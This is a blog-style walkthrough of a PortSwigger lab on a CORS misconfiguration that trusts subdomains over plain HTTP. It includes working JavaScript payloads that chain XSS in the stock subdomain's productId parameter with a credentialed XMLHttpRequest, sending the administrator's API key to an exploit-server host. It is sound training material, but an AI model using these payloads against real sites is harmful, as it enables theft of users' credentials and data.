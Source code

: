 ```yaml
---
layout: post
title:  "CORS vulnerability with trusted insecure protocols"
date:   2024-10-16 11:20:54 +0530
---
```


## Introduction

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

## Solution

Looks like the same previous lab, but there is a new functionality to check the stocks where it takes new subdomain called `stock` and there is a XSS vulnerability through `productId`

![]({{ site.baseurl }}/assets/images/cors-14.png)


As same the previous lab, we found a endpoint called `/accountDetails` where it shows the API keys being available of the loggedin user

![]({{ site.baseurl }}/assets/images/cors-15.png)

Now coming to the CORS part, In the `/accountDetails` endpoint we sent the `Origin: http://example.com` and nothing happens in the response 

![]({{ site.baseurl }}/assets/images/cors-16.png)

But when we send the subdomain as a origin, it accepts and discloses in the response as an `ACAO` 

![]({{ site.baseurl }}/assets/images/cors-17.png)

When we look back at our first lab, we can take that POC and make it as a oneliner 

```js
<script>var req=new XMLHttpRequest();req.onload=reqListener;req.open('get','https://0a90007603b4470f808430ae0091001b.web-security-academy.net/accountDetails',true);req.withCredentials=true;req.send();function reqListener(){location='/log?key='+this.responseText;}</script>
```

And submitted it as payload for the XSS in the `stock` subdomain and it works as you see

![]({{ site.baseurl }}/assets/images/cors-18.png)


Ok awesome, In the Exploit server with the following POC 

```html
<script>
    document.location="http://stock.0a18006104de0fa18139b1cb001d000c.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a18006104de0fa18139b1cb001d000c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ab8008604440fdf8185b06c01ad008c.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Once after delivering the exploit to the victim and checking the accesslog we found the `administrator` API key

![]({{ site.baseurl }}/assets/images/cors-20.png)

Take the API key and submit it as a solution and the lab will be solved 

![]({{ site.baseurl }}/assets/images/cors-21.png)